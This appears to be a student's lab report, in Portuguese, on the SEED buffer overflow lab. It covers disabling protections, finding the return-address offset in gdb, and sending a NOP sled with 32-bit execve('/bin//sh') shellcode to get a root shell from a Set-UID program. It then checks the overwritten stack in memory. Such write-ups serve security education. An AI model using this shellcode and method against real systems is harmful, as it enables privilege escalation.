### Buffer Overflow Attack ###

Começamos por preparar o ambiente para o Seed Lab, começando por desativar a funcionalidade de randomização do endereço de stacks e heaps.

Como versões recentes do Ubuntu, tanto o dash como o bash possuem medidas de segurança contra processos Set-UID, tivemos que mudar a shell que vamos usar neste seed lab, para a shell zsh, ou seja, fazer bin/sh apontar para bin/zsh. 


**Task 1**

Começamos por compilar o código que invoca a shellcode, através do comando make, que gera duas cópias do shellcode, em 32 e 64 bits. 
Ao correr os programas, eles abrem uma nova shell, a zsh 


**Task 2**

Começamos por editar a variável L1 da Makefile para 100+8*3 = 124. 
De seguida, compilamos o programa stack.c, desativando o protocolo StackGuard e ativando a permissão de execução de código presente na stack. Além disso, mudamos a propriedade do programa para “root” e a permissão para 4755. Como os comandos estão inseridos na Makefile, executamos a seguinte instrução, especificando apenas o target no argv[1], que vai definir o BUF_SIZE



### Task 3: Exploração de Buffer Overflow

**1. Setup do Ambiente**

  * Desabilitámos a aleatorização de endereços (ASLR):
    ```bash
    $ sudo sysctl -w kernel.randomize_va_space=0
    ```
  * Alterámos o link simbólico do shell `/bin/sh` para apontar para `/bin/zsh`:
    ```bash
    $ sudo ln -sf /bin/zsh /bin/sh
    ```
  * Trocámos o valor de `L1` no `Makefile` para `100+8*3=124` (Grupo 3).

**2. Compilação e Preparação**

  * Compilámos o programa `stack-L1`:
    ```bash
    $ make stack-L1
    ```
  * Criámos o ficheiro `badfile` (que será usado para o *payload*):
    ```bash
    $ touch badfile
    ```
  * Iniciámos o `gdb` no programa de *debug*:
    ```bash
    $ gdb stack-L1-dbg
    ```


**3. Análise da Stack no GDB**

  * Definimos um *breakpoint* na função `bof`:
    ```bash
    gdb-peda$ b bof
    ```
  * Executámos o programa e avançámos uma instrução (`next`) para a *stack* ser inicializada:
    ```bash
    gdb-peda$ run
    gdb-peda$ next
    ```
  * Obtivemos o endereço do *Base Pointer* (`EBP`):
    ```bash
    gdb-peda$ p $ebp
    $2 = (void *) 0xffffcad8
    ```
  * Obtivemos o endereço de início do `buffer`:
    ```bash
    gdb-peda$ p &buffer
    $3 = (char (*)[132]) 0xffffca4c
    ```
  * Calculámos a distância (offset) entre o início do `buffer` e o `EBP`:
    ```bash
    gdb-peda$ p/d 0xffffcad8 - 0xffffca4c
    $4 = 140
    ```
  * Com base neste valor, o *offset* para o Endereço de Retorno (EIP) é `140 (até EBP) + 4 (tamanho do EBP) = 144 bytes`.



**4. Construção do Payload (exploit.py)**

  * Modificámos o ficheiro `exploit.py` com os seguintes valores:
      * **shellcode:**
        ```python
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
        "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
        "\xd2\x31\xc0\xb0\x0b\xcd\x80"
        ```
      * **ret** (novo endereço de retorno): `0xffffcad8 + 200`
      * **offset** (distância até ao EIP): `144`


**5. Execução do Ataque**

  * Executámos o *script* para gerar o `badfile` com o *payload*:
    ```bash
    $ ./exploit.py
    ```
  * Executámos o programa vulnerável, que leu o `badfile`:
    ```bash
    $ ./stack-L1
    ```
  * O ataque foi bem-sucedido, resultando num *shell* com privilégios de `root`.




### Question 2

### Análise de Memória Pós-Ataque no GDB

Para confirmar que o nosso *exploit* funcionou exatamente como planeado, realizámos uma análise da memória *stack* no `gdb` após o *buffer overflow* ter ocorrido, mas antes de a função `bof` retornar.

**1. Preparação do GDB**

  * Iniciámos o `gdb` com o caminho absoluto para o executável:
    ```bash
    $ gdb $PWD/stack-L1-dbg
    ```
  * Normalizámos as variáveis de ambiente dentro do `gdb` para que os endereços da *stack* sejam idênticos aos da execução normal.
    ```bash
    gdb-peda$ set env _=/home/seed/Desktop/logbook5/Labsetup/code/stack-L1-dbg
    gdb-peda$ unset env COLUMNS
    gdb-peda$ unset env LINES
    ```
  * Definimos um *breakpoint* na linha 22 do `stack.c`, que corresponde à instrução `return 1;` da função `bof`. Isto permite-nos parar a execução *depois* do `strcpy()` ter corrompido a memória, mas *antes* de o `ret` ser executado.
    ```bash
    gdb-peda$ b 22
    ```



**2. Execução e Inspeção**

  * Executámos o programa. O `gdb` leu automaticamente o nosso `badfile` malicioso e parou no *breakpoint* da linha 22.
    ```bash
    gdb-peda$ run
    ```
  * Usámos o comando `x/517c &buffer` para examinar os 517 bytes de memória a partir do início do `buffer`.

**3. Resultados da Análise de Memória**

As imagens seguintes mostram o *dump* da memória da *stack*.

Podemos identificar três componentes chave do nosso *payload*:

1.  **NOP Sled (0x90):** A memória, a começar no endereço do *buffer* (`0xfffffca4c`), está preenchida com a instrução `0x90` (NOP). Esta é a nossa "pista de aterragem".

2.  **Endereço de Retorno Sobrescrito:** No endereço `0xfffffcae0`, vemos os bytes `0xa0 0xcb 0xff 0xff`.

      * Isto corresponde ao endereço `0xffffcba0` (em formato *little-endian*).
      * A localização (`0xfffffcae0`) está exatamente a 144 bytes do início do *buffer* (`0xffffca4c`), o que confirma que o nosso `offset = 144` estava correto.
      * Este é o novo endereço de retorno que injetámos, que aponta para o meio da nossa "pista de NOPs".

3.  **Shellcode:** A partir do endereço `0xfffffcbc0`, vemos o início do nosso *shellcode*: `0x31 0xc0 0x50 0x68 ...`. Este é o código malicioso que será executado após o CPU "deslizar" pelos NOPs.

**Conclusão:** A análise da memória confirma que o nosso `exploit.py` corrompeu a *stack* com sucesso, substituindo o endereço de retorno original pelo nosso endereço falso e injetando o *shellcode* na memória, levando à execução do ataque.

